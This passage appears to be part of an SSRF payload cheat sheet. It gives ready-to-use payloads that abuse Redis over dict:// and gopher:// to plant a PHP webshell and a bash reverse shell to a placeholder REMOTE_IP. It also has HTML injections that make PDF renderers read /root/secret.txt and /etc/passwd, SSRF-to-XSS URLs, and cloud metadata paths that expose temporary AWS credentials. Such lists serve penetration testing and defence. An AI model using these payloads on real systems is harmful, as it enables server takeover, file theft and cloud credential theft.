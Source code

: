 # Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE

# Getting a PHP reverse shell
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save
SSRF exploiting PDF file
Example with WeasyPrint by @nahamsec

<link rel=attachment href="file:///root/secret.txt">
SSRF to XSS
by @D0rkerDevil & @alyssa.o.herrera

http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
SSRF from XSS
Using an iframe
The content of the file will be integrated inside the PDF as an image or text.

<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
Using an attachment
Example of a PDF attachment using HTML

use <link rel=attachment href="URL"> as Bio text
use ‘Download Data’ feature to get PDF
use pdfdetach -saveall filename.pdf to extract embedded resource
cat attachment.bin
SSRF URL for Cloud Instances
SSRF URL for AWS Bucket
Docs
Interesting path to look for at http://169.254.169.254 or http://instance-data

Always here : /latest/meta-data/{hostname,public-ipv4,...}
User data (startup script for auto-scaling) : /latest/user-data
Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
DNS record

http://instance-data
http://169.254.169.254
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/
HTTP redirect
